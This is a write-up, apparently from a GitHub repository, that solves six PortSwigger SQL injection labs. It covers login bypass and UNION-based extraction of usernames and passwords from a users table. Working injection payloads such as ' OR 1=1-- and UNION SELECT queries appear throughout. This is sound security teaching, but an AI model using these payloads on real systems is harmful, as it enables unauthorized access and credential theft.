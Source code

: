 ## Summary
- [Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection#lab1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
- [Lab2: SQL injection vulnerability allowing login bypass](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection#lab2-sql-injection-vulnerability-allowing-login-bypass)
- [SQL injection UNION attacks](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#sql-injection-union-attacks)
	- [Lab3: SQL injection UNION attack, determining the number of columns returned by the query](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab3-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
	- [Lab4: SQL injection UNION attack, finding a column containing text](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab4-sql-injection-union-attack-finding-a-column-containing-text)
	- [Lab5: SQL injection UNION attack, retrieving data from other tables](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab5-sql-injection-union-attack-retrieving-data-from-other-tables)
	- [Lab6: SQL injection UNION attack, retrieving multiple values in a single column](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab6-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)

## `Notice:` I suggest being familiar with SQL before reading the labs solutions.

### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- In the first, If we set this specific character `'`, the server will reply with `Internal Server Error`.
- Because when we will set it, the query in the backend will be like that :

```SQL
SELECT * FROM products WHERE category = ''' AND released = 1
```
- But we can use some tricks to inject this parameter.

```
category=any_category' OR 1=1--
category=' OR 1=1--
```
- Here, we terminated the single quotes of category parameter.
- And we used an `OR` logical operator and the equation of `1=1`, and this equation will always be true, so now we don’t have to know category as whatever be the category if we set or not.
- After that, we added the comment sequence `--` causes the remainder of the query to be ignored.
- So the query will show all category items and will be like that:

```SQL
SELECT * FROM products WHERE category = 'any_category' OR 1=1--' AND released = 1
```
-----------------------------------------------------------------------

### Lab2: SQL injection vulnerability allowing login bypass
- Many applications that implement a forms-based login function use a database to store user credentials and perform a simple SQL query to validate each login attempt like this query:

```SQL
SELECT * FROM users WHERE username = 'admin' AND password = 'admin'
```
- Try injecting this payload.

```
username=administrator'--
```
- Again, When we set `--`, it will ignore the remainder of the query and the password check is bypassed.
- It is called `subverting or altering application logic`.
- The query will be like that after injecting in the backend:

```SQL
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
##### Take note for another solution:
- Suppose that the attacker does not know the administrator’s username. In most applications, the first account in the database is an administrative user, because this account normally is created manually and then is used to generate all other accounts via the application.
- So we will log in as the first user in the database who is the administrator by supplying this as input to the username parameter:

```
username=' OR 1=1--
```
- The query will be like that and will let you log in as the first user who is the `administrator` and also the password check is bypassed.

```SQL
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''
```

-----------------------------------------------------------------------
## SQL injection UNION attacks
### Lab3: SQL injection UNION attack, determining the number of columns returned by the query
>  `Note:` To combine two `select` statements with the `UNION`  operator:
>  1. We must return the same number of columns in the 2 `select` statements.
>  2. The 2 queries result must have the same or compatible data types, appearing in the same order.

- So one of the most common ways to detect the number of columns in the select statement is using the `NULL` values. 
- There is another way with using the `order by clause`.
- But we will use the first way because of the `NULL` value can be converted to any data type.
- Here, when I tried to test the number of columns, I got an error: `Internal server error`.
 
```
category='union select null--
category='union select null,null--
```
 - But when I tried three values of `NULL`, the injected query succeeded.
 
```
category='union select null,null,null--
```

-----------------------------------------------------------------------

### Lab4: SQL injection UNION attack, finding a column containing text

- As usual in the first, I tried to identify a number of columns, and I detected there are three columns combined in the query when I injected the `UNION` operator.

```
category='union select null,null,null--
```
- The second step I want to identify the data type of the columns, but I will focus on the string data because the important and interesting data will be in the string columns.
- So I tried to set string data in the first column, and when it will be combined with the first column in the query of the application it will return an error if the results are not compatible with the same data types.
- Here, I got an error because the first column is not from the string data type.

```
' union select 'VlA8XYl',null,null--
```
- But on the second try, the payload is interpreted successfully, and the second column returned data from the `string` data type.  

```
' union select null,'VlA8XYl',null--
```

-----------------------------------------------------------------------

### Lab5: SQL injection UNION attack, retrieving data from other tables
1. Testing number of columns:

```
category=' union select null,null--
```
2. Testing which column holds data with `string` data type:

```
category=' union select 'hello',null--
```
- In real-world scenarios, you must know the names of the tables and columns containing the data you want to access, in the next labs we will know how to know that, but in this lab description, we know the name of the table and the columns which we will retrieve.
3. And the last phase is retrieving the data from the `user` table:

```
category=' union select username, password from users--
```
- Here we can see the results from my injected query, and now we can log in as the `administrator` user.

![lab5.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/In-Band%20SQLi%20images/lab5.png)

-----------------------------------------------------------------------
### Lab6: SQL injection UNION attack, retrieving multiple values in a single column
- We will try to detect the number of columns and data type of each column as usual.

```
1. category=' union select null,null--
2. category=' union select null,'hello'--
```
- I detected the second column is a `string`, but how we can retrieve the username and password when we have just one column receive string data!!
- And if we tried to retrieve the data with this query it will make an error:
```
category=' union select username, password from users--
```
- Because the first column is not string data type.
- The solution for this problem is combining the results of the 2 columns in one column by concatenating them with `||`.

```
category=' union select null, username ||'~'|| password from users--
```
- `Note:` You can set any specific character to separate columns other than `~`.

![lab6.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/In-Band%20SQLi%20images/lab6.png)

- Or you can make something like that by concatenating😃
```
category=' union select null, 'User: '|| username ||' and password: '|| password from users--
```

![lab6_another_form.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/In-Band%20SQLi%20images/lab6_another_form.png)
